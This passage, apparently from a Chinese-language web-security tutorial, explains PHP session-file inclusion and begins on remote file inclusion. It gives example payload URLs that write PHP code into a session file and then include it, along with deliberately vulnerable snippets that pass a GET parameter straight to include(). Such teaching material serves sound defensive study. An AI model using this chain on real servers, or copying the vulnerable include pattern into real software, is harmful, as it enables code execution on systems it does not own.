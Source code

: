 1.     Session的存储位置可以获取
2.     Session内容可控 

(1)    通过phpinfo的信息获取 session 的存储位置

Phpinfo中的`session.save_path`保存的是`session`的存储位置。通过phpinfo的信息获取session.save_path为/var/lib/php。

![](https://img-blog.csdnimg.cn/img_convert/2ece8eafa3fd66056cba1690efd5d1c4.png) 


```
<?php
     session_start();
    $ctfs  = $_GET['ctfs'];
     $_SESSION['username']=$ctfs;
?>
```
此代码的$ctfs变量的值可以通过GET型ctfs参数传入。PHP代码将会获得GET型ctfs变量的值存入Session中。攻击者可以利用GET型ctfs参数将而已代码写入Session文件中，然后再利用文件包含漏洞包含此Session文件,向系统中传入恶意代码。

## Payload:

```
将php语句写入session中
http://127.0.0.1/test.php?ctfs=<?php phpinfo(); ?>  

包含session文件
http://127.0.0.1/test.php?filename=C:\phpStudy\PHPTutorial\tmp\tmp\sess_c3b4faa1f3b28c602c862bdf366fd92c 
```

session文件名(真正的文件名默认都有个前缀就是sess_)

# 五、远程文件包含

## 一、无限制远程文件包含

无限制远程文件包含是指文件的位置并不是本地服务器，而是通过URL形式包含其他服务器上的文件，执行文件中的恶意代码。

### 漏洞利用条件:

```
1. allow_url_fopen=on
2. allow_url_include=on
```

漏洞代码

```
<?php
     $filename  = $_GET['filename'];
       include($filename);
?>
```
